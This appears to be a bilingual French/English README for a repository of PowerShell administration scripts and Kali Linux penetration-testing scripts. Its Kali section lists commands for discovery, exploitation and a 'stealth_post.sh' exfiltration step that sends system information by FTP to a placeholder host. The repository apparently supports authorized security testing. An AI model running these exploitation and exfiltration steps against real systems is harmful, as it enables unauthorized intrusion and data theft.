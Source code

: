 # PowerShell Scripts Repository

Ce dépôt contient une collection de scripts PowerShell utiles pour l'administration système et l'automatisation de tâches courantes.

## Table des matières

- [⚠️ Avertissements légaux](#-avertissements-légaux)
- [📂 Structure du dépôt](#-structure-du-dépôt)
- [🛠️ Prérequis / Prerequisites](#-prérequis--prerequisites)
- [📦 Installation](#-installation)
- [📚 Exemples d'utilisation](#-exemples-dutilisation)
- [License](#license)

## ⚠️ Avertissements légaux

Pentest scripts (dont `pentest_discovery.sh`, `pentest_verification.sh`, `pentest_exploitation.sh`) et `stealth_post.sh` doivent être utilisés uniquement sur des systèmes pour lesquels vous disposez d'une autorisation explicite.

Pentest scripts and `stealth_post.sh` must only be run on systems where you have been granted explicit permission. Unauthorized use may be illegal.

## 📂 Structure du dépôt

```
scripts/
├── linux/             # Scripts Bash pour Linux
│   ├── check_dependencies.sh
│   ├── setup_api.sh
│   ├── pentest_discovery.sh
│   ├── pentest_verification.sh
│   ├── pentest_exploitation.sh
│   ├── scan_wifi.sh
│   └── stealth_post.sh
├── powershell/        # Scripts PowerShell pour Windows
│   ├── DiskUsageReport.ps1
│   ├── Get-SystemInfo.ps1
│   ├── ManageServices.ps1
│   ├── VMManagement.ps1
│   ├── LinkCrawler.ps1
│   ├── TeamsManagement.ps1
│   ├── SharePointManagement.ps1
│   ├── UserManagement.ps1
│   └── SecurityCheck.ps1
├── sample_logs.json   # Journalisation fictive pour tests
```

Le fichier `targets.txt` à la racine contient la liste des cibles pour les scripts de pentest. Les scripts Bash utilisent un chemin relatif basé sur leur propre emplacement pour le retrouver, ce qui permet de les lancer depuis n'importe quel répertoire.

## 🛠️ Prérequis / Prerequisites

- **Outils / Tools** : `nmap`, `gvm-cli` et les modules PowerShell nécessaires (Hyper-V, ExchangeOnlineManagement, Teams, etc.).
- **Privilèges / Privileges** : certains scripts exigent des droits administrateur ou root.

## 📦 Installation

```bash
# Installation de l'API Mistral
# Le script télécharge install.sh séparément et vérifie son empreinte SHA-256
bash scripts/linux/setup_api.sh
# Activer l'environnement virtuel puis lancer l'API
source /opt/mistral-env/bin/activate
python ~/mistral_api.py
```

## 📚 Exemples d'utilisation

Les scripts peuvent être lancés via PowerShell :

```powershell
# Exemple : afficher les informations système
.\scripts\powershell\Get-SystemInfo.ps1

# Exemple : vérifier l'état d'un service
.\scripts\powershell\ManageServices.ps1 -Action status -ServiceName spooler

# Exemple : lister les machines virtuelles Hyper-V
.\scripts\powershell\VMManagement.ps1 -Action list

# Exemple : démarrer une machine virtuelle
.\scripts\powershell\VMManagement.ps1 -Action start -VMName "TestVM"
# Exemple : lister les equipes Teams
.\scripts\powershell\TeamsManagement.ps1 -Action list
# Exemple : créer un canal Teams
.\scripts\powershell\TeamsManagement.ps1 -Action createchannel -TeamName "Marketing" -ChannelName "Général"
# Exemple : ajouter plusieurs membres depuis un CSV
.\scripts\powershell\TeamsManagement.ps1 -Action bulkadd -TeamName "Marketing" -CsvPath .\users.csv
# Exemple : lister les boîtes aux lettres Exchange Online
.\scripts\powershell\ExchangeOnlineManagement.ps1 -Action list
# Exemple : lister les sites SharePoint Online
.\scripts\powershell\SharePointManagement.ps1 -Mode Online -Action ListSites -Credential (Get-Credential)
# Exemple : créer un site SharePoint On-Premise
.\scripts\powershell\SharePointManagement.ps1 -Mode OnPrem -Action CreateSite -SiteUrl "http://spserver/sites/test" -Template STS#0 -Credential (Get-Credential)
# Exemple : vérifier les paramètres de sécurité
.\scripts\powershell\SecurityCheck.ps1
```
> **Note :** `ManageServices.ps1` et `UserManagement.ps1` doivent être exécutés dans une session PowerShell élevée.
> **Exemple :** cherchez "PowerShell" dans le menu Démarrer, faites un clic droit puis sélectionnez "Exécuter en tant qu'administrateur".

Chacun des scripts possède des paramètres décrits en début de fichier.

### Scripts Kali Linux

```bash

# Vérifier les dépendances nécessaires
bash scripts/linux/check_dependencies.sh

# Phase de découverte (scan complet et scripts de vulnérabilités)
bash scripts/linux/pentest_discovery.sh
# Phase de vérification des vulnérabilités
bash scripts/linux/pentest_verification.sh
# Phase d'exploitation (si autorisée)
bash scripts/linux/pentest_exploitation.sh
# Génère un fichier de suggestions avec searchsploit si des CVE ont été détectées
# Exfiltration basique (si autorisée)
export FTP_USER="utilisateur"
export FTP_PASS="motdepasse"
export FTP_HOST="exemple.com"
export FTP_PATH="uploads/sysinfo.txt"
bash scripts/linux/stealth_post.sh
```

Chaque exécution de `pentest_discovery.sh` crée un sous-dossier horodaté dans `pentest_results`, conservant les résultats des scans précédents.
Each run of `pentest_discovery.sh` outputs to a timestamped subfolder inside `pentest_results`, preserving previous scan results.
 
## License

This project is licensed under the MIT License. See [LICENSE](LICENSE) for details.
